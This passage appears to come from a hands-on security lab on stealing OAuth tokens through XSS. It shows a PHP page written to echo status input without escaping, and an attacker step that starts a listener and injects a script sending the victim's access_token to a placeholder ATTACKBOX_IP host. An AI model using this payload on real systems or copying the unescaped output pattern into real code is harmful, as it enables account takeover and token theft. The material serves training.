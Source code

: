 Victim Perspective

Once the user authenticates using the OAuth provider credentialsÂ `victim:victim123`, he will be redirected toÂ `callback.php`, where he can enter a status. This page includes a form for entering a status and submitting it via an AJAX request:  

```php
<button class="btn btn-primary" onclick="submitStatus()">Submit</button>
<h2 class="mt-4">Submitted Status</h2>
<ul class="list-group" id="status-list">
    <?php
    session_start();
    if (isset($_POST['status'])) {
        $status = $_POST['status'];
        if (!isset($_SESSION['statuses'])) {
            $_SESSION['statuses'] = [];
        }
        $_SESSION['statuses'][] = $status;
        header('Content-Type: application/json');
        echo json_encode(['status' => $status]);
        exit();
    }
    // Display previously stored statuses
    if (isset($_SESSION['statuses'])) {
        foreach ($_SESSION['statuses'] as $status) {
            echo '<li class="list-group-item">' . $status . '</li>';
        }
    }
    ?>
</ul>
```

For demonstration purposes, the status input field is vulnerable toÂ XSS. Once you reach the status page and enter a status like "**Hello**", it will be published. However, if an attacker exploits this vulnerability, they can inject a malicious script.  

![webpage showing textbox for entering status](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1722107085052.png)  

Attacker Perspective

To prepare for the attack, inside the Attackbox instance, run a PythonÂ HTTPÂ server to listen on portÂ `8081`Â using the commandÂ `python3 -m http.server 8081`. The attacker will share the following payload with the victim that he will enter as status (assume usingÂ social engineering):  

```python
<script>var hash = window.location.hash.substr(1);var result = hash.split('&').reduce(function (res, item) {var parts = item.split('=');res[parts[0]] = parts[1];
    return res;
  }, {});
  var accessToken = result.access_token;
    var img = new Image();
    img.src = 'http://ATTACKBOX_IP:8081/steal_token?token=' + accessToken;
</script>
        
```

